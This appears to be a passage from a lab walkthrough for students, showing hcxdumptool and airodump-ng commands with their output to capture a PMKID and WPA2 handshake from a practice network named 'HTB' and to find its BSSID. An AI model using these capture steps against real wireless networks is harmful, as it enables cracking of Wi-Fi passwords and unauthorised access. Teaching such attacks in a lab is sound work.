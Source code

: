 ```shell
hcxdumptool -i wlan0mon --enable_status=3
```

```
root@WiFiIntro:/home/wifi# hcxdumptool -i wlan0mon --enable_status=3

initialization of hcxdumptool 6.2.5...
warning possible interfere: NetworkManager is running with pid 225

warning possible interfere: wpa_supplicant is running with pid 206

interface is already in monitor mode, skipping ioctl(SIOCSIWMODE) and ioctl(SIOCSIFFLAGS) system calls

start capturing (stop with ctrl+c)
NMEA 0183 SENTENCE........: N/A
INTERFACE NAME............: wlan0mon

<SNIP>

11:41:25 2412/1   4ae787e8b085 d8d63deb29d5 HTB [ASSOCIATION]
11:41:25 2412/1   4ae787e8b085 d8d63deb29d5 HTB [PMKID:8f71363949db31937750068cd38a7382 KDV:2]
11:41:25 2412/1   4ae787e8b085 d8d63deb29d5 HTB [EAPOL:M1M2 EAPOLTIME:6605 RC:1 KDV:2]
11:41:25 2412/1   4ae787e8b085 d8d63deb29d5 HTB [EAPOL:M2M3 EAPOLTIME:106 RC:2 KDV:2]
11:41:25 2412/1   4ae787e8b085 d8d63deb29d5 HTB [EAPOL:M3M4ZEROED EAPOLTIME:117 RC:2 KDV:2]
```

They will stop the `hcxdumptool` process using the key combination `Ctrl + C` and will proceed to obtain the BSSID using the captured ESSID of `HTB` using `airodump-ng` and the `--essid` option:

Code: shell

```shell
sudo airodump-ng wlan0mon --essid HTB
```

```
root@WiFiIntro:/home/wifi# sudo airodump-ng wlan0mon --essid HTB

 CH 13 ][ Elapsed: 0 s ][ 2025-01-07 11:44 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 D8:D6:3D:EB:29:D5  -47        5        0    0   1   54   WPA2 CCMP   PSK  HTB                                                                 

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
```

Students will stop the `airodump-ng` process using the key combination `Ctrl + C` and will use `hcxdumptool` to capture the PMKID of the `HTB` network by using the previously attained BSSID and specifying it in the `--filterlist_ap` option and save it to a file:

Code: shell
